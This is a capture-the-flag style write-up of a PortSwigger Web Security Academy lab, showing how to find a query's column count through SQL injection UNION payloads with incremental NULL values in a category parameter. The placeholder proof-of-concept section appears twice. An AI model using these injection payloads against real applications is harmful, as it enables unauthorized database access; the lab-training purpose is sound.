

# Lab: SQL injection UNION attack, determining the number of columns returned by the query

**Platform:** PortSwigger Web Security Academy
**Category:** SQL Injection
**Difficulty:** Apprentice

## 🎯 Objective
The application contains a SQL injection vulnerability in the product category filter. The goal is to determine the exact number of columns returned by the backend database query by performing a `UNION` attack that returns an additional row of `NULL` values.

## 🕵️‍♂️ Analysis
When executing a `UNION` attack, the injected query must return the exact same number of columns as the original developer's query. If the column count does not match, the database will throw an internal error, and the webpage will likely fail to load properly.

By incrementally injecting `NULL` values (which are valid data types for almost any column), I can probe the database. When the page finally loads without an error and displays the expected content, the number of injected `NULL` values corresponds exactly to the number of columns in the original query.

## 🚀 Payload & Execution
I targeted the `category` parameter and incrementally added `NULL` values to the `UNION SELECT` statement.

### Steps:
1. **Testing 1 Column:** * Payload: `' UNION SELECT NULL--`
   * Result: Application threw an error (column mismatch).
2. **Testing 2 Columns:** * Payload: `' UNION SELECT NULL, NULL--`
   * Result: Application threw an error (column mismatch).
3. **Testing 3 Columns:** * Payload: `' UNION SELECT NULL, NULL, NULL--`
   * *(URL Encoded: `%27%20UNION%20SELECT%20NULL,NULL,NULL--`)*
   * Result: The application loaded successfully, returning an additional row containing empty (null) data. This confirms the original query returns exactly 3 columns.

## 📸 Proof of Concept
*(Add your screenshot showing the successful page load with the 3 NULL payload here)*

## 📸 Proof of Concept
*(Add your screenshot showing the successful page load with the 3 NULL payload here)*

